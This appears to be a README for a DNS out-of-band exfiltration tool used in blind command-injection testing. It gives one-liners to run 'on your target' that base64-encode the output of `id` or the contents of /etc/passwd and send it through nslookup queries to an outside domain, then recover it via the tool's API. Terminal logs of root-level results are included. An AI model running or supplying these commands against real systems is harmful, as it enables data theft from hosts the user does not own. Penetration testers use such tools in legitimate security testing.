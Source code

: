 #Usage

###start###  
nohup python checkvul.py 2>&1 &

###query###

Execute The Following Command On Your Target:

id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup

##############################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info
Address: 127.0.0.1
##############################################################################################

Access following API:
http://127.0.0.1/_query

Response:

"""
ECHO

uid=0(root) gid=0(root) groups=0(root)

****************************************************************************************************
DNS
dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
1.xdebug.info. 45.32.103.184 2018-11-19 16:36:28
xdebug.info. 45.32.103.184 2018-11-19 16:36:28
****************************************************************************************************

""""

###check###

nslookup check.7b0f687d4d6d.xdebug.info

######################################################
root@vultr:~# nslookup check.7b0f687d4d6d.xdebug.info
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	check.7b0f687d4d6d.xdebug.info
######################################################

Request API:
http://localhost/_check?type=dns&uuid=7b0f687d4d6d

Response JSON:
{"result": 1, "uuid": "7b0f687d4d6d", "log": "check.7b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:22:41"}

###echo###

cat /etc/passwd |base64 -w60|cat -n|awk '{print $2"."$1".8b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup

##########################################################################################################
root@vultr:~# id |base64 -w60|cat -n|awk '{print $2"."$1".9b0f687d4d6d.xdebug.info"};'|xargs -n 1 nslookup
Server:		108.61.10.10
Address:	108.61.10.10#53

Non-authoritative answer:
Name:	dWlkPTAocm9vdCkgZ2lkPTAocm9vdCkgZ3JvdXBzPTAocm9vdCkK.1.9b0f687d4d6d.xdebug.info
Address: 127.0.0.1

##########################################################################################################

Request API:
http://localhost/_echo?type=dns&uuid=9b0f687d4d6d

Response JSON:
{"result": "uid=0(root) gid=0(root) groups=0(root)\n", "uuid": "9b0f687d4d6d", "log": "cm9vdDp4OjA6MDpyb290Oi9yb290Oi9iaW4vYmFzaApkYWVtb246eDoxOjE6.1.8b0f687d4d6d.xdebug.info.\t45.32.103.184\t2018-11-19 16:27:31"}
